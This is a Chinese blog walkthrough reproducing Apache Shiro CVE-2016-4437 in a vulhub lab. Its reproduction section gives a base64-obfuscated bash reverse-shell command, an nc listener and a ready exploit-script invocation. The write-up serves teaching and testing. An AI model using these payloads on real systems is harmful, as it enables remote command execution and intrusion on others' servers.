

# Apache Shiro 1.2.4 反序列化漏洞（CVE-2016-4437） - NoCirc1e - 博客园

> 原文：[`www.cnblogs.com/NoCirc1e/p/16275589.html`](https://www.cnblogs.com/NoCirc1e/p/16275589.html)

Apache Shiro 是一款开源安全框架，提供身份验证、授权、密码学和会话管理。Shiro 框架直观、易用，同时也能提供健壮的安全性。

Apache Shiro 1.2.4 及以前版本中，加密的用户信息序列化后存储在名为 remember-me 的 Cookie 中。攻击者可以使用 Shiro 的默认密钥伪造用户 Cookie，触发 Java 反序列化漏洞，进而在目标机器上执行任意命令。

## 漏洞环境

执行如下命令启动一个使用了 Apache Shiro 1.2.4 的 Web 服务：

```
docker-compose up -d
```



服务启动后，访问`http://your-ip:8080`可使用`admin:vulhub`进行登录。


## 漏洞复现

手工检测出了使用了 shiro 框架后就开始验证是否存在漏洞了如果存在则进行漏洞利用，这里漏洞检测和利用使用 python 脚本进行验证

### shiro_exploit.py

*   脚本下载地址：[`github.com/insightglacier/Shiro_exploit`](https://github.com/insightglacier/Shiro_exploit)
*   基于 python3
*   jdk1.8

执行反弹 shell

对反弹 shell 语句进行加密

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4Ljc1LjE1MC85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}
```

开启监听

```
nc -lvvp 9999
```

执行反弹语句

```
python3 shiro_exploit.py -t 3 -u http://192.168.75.130:8080 -p "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4Ljc1LjE1MC85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}"
```

接收反弹 shell

